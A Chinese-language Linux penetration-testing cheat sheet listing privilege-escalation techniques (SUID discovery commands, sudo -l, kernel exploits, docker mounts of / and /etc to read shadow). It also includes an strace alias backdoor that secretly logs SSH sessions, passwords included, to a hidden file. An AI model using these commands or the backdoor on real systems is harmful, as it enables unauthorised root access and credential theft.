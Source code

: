 持久化 - Linux
========================================

权限提升
----------------------------------------
- 明文root密码/密码复用
- 脏牛漏洞本地提权
- 内核漏洞利用
    - searchspolit linux
    - searchspolit centos 7 kernel 3.10
- 攻击有root权限的服务
- 通过有SUID属性的可执行文件
    - 查找可能提权的可执行文件
    - ``find / -perm +4000 -ls``
    - ``find / -perm -u=s -type f 2>/dev/null``
    - ``find / -user root -perm -4000 -print 2>/dev/null``
    - ``find / -user root -perm -4000 -exec ls -ldb {} \;``
    - 常用的提权文件：Nmap，Vim，find，Bash，More，Less，Nano，cp
- 利用可用的root权限
    - ``sudo -l``
- crontab计划任务
- docker提权
    - 借助任意一个docker镜像创建一个容器(docker images)
	- docker pull alpine
    - docker run -it --rm xxx /bin/bash    #常规使用
    - docker run -it --rm -v /etc:/etc xxx /bin/bash    #异常使用- 
    - 挂载根目录到docker镜像内：docker run -v /:/mnt  -it alpine
    - 挂载/etc/目录：docker run -v /etc/:/mnt -it alpinecd /mntcat shadow
    
- 其它
    - ``https://github.com/SecWiki/linux-kernel-exploits``

后门
----------------------------------------
- strace 后门
    - ``alias ssh='strace -o /tmp/.ssh.log -e read,write,connect -s 2048 ssh'``
